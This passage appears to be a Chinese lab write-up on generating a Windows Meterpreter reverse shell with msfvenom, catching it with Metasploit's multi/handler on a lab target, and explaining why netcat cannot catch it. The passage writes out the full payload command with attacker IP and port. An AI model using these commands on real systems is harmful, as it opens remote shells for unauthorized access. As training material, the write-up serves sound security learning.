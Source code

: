 目标机ip：10.10.98.5

攻击机ip：10.10.44.92

使用 msfvenom创建payload(包括 shell)的语法如下:

```shell
msfvenom -p <PAYLOAD> <OPTIONS>
```

为了生成 exe 格式的 Windows x64 Meterpreter Shell，我们将在攻击机上使用以下命令:

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.44.92 LPORT=12345
```

![image-20221008135727294](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008135727294.png)

现在我们需要在攻击机上使用来自 Metasploit 的 multi/handler 模块，然后在目标机器内运行 shell.exe 文件。

在攻击机上执行以下操作来设置 multi/handler:

1. 使用 msfconsole 命令打开 Metasploit
2. 输入命令: use multi/handler
3. 通过输入 show options 命令来查看不同的选项
4. 设置PAYLOAD参数 (set payload windows/x64/meterpreter/reverse\_tcp), LHOST参数 (attacker ip) 以及LPORT参数
5. 使用exploit 或者 run 命令执行

![image-20221008140243842](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008140243842.png)

![image-20221008140141272](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008140141272.png)

然后在目标机器上调用shell.exe文件（因为之前使用RDP登录目标机器时开启了剪切板功能，所以直接将shell.exe复制到目标机器上即可）

在攻击机界面获得一个Meterpreter shell：

![image-20221008141416903](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008141416903.png)

#### **操作九**

要求：为任一目标创建分段和不分段的 meterpreter shell，上传exe文件并手动激活它，使用netcat捕获shell——这个shell能正常工作吗？

结果：不能，我们需要使用msf里面的multi/handler模块捕获meterpreter shell，用netcat并不能使这个shell正常工作。

![image-20221008142011637](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008142011637.png)
